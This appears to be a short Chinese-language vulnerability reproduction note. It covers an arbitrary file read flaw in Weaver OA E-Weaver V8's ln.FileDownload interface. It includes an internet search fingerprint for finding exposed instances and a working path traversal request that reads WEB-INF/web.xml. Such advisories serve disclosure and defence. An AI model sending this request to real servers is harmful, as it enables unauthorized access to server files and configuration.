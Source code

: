 # 泛微OA E-Weaver ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628479897544-b1d9da8a-4336-4371-b54f-22285b235ee9.png)

验证POC

```php
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![img](/assets/PeiQi-Wiki/img/1628479992921-2645d12d-2180-4e6f-bd87-8d1e2ff2cbb7.png)



